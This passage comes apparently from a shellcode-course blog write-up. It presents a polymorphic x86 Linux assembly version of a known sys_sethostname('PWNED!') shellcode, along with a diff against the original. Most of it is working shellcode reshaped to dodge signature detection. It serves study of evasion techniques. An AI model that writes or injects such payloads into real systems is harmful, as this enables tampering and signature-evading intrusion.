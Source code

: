 






* * *



The second shellcode is a sys_sethostname("PWNED!", 6)  which original code can be found [here](http://shell-storm.org/shellcode/files/shellcode-622.php).

The code of the polymorphic version is:

    
    global _start
    section .text
    _start:
    	mov al,0x15
    	add al,0x35
    	mov edx,0x454e2144
    	rol edx,16
    	push edx
    	push WORD 0x5750
    	mov ebx,esp
    	mov cl,6
    	int 0x80
    	mov al,1
    	int 0x80


The differences between the original version and the polymorphic version are:

    
    --- orig.asm	2014-05-12 11:51:24.994828858 +0200
    +++ poly.asm	2014-05-12 11:51:10.962829805 +0200
    @@ -1,20 +1,14 @@
     global _start
     section .text
     _start:
    -	jmp    0x8048073
    -	xor    eax,eax
    -	mov    al,0x4a
    -	pop    ebx
    -	mov    cl,0x8
    -	int    0x80
    -	xor    eax,eax
    -	mov    al,0x1
    -	xor    ebx,ebx
    -	int    0x80
    -	call   0x8048062
    -	push   eax
    -	ja     0x80480c9
    -	gs
    -	inc    esp
    -	and    ecx,ah
    -	.byte 0x21
    +	mov al,0x15
    +	add al,0x35
    +	mov edx,0x454e2144
    +	rol edx,16
    +	push edx
    +	push WORD 0x5750
    +	mov ebx,esp
    +	mov cl,6
    +	int 0x80
    +	mov al,1
    +	int 0x80
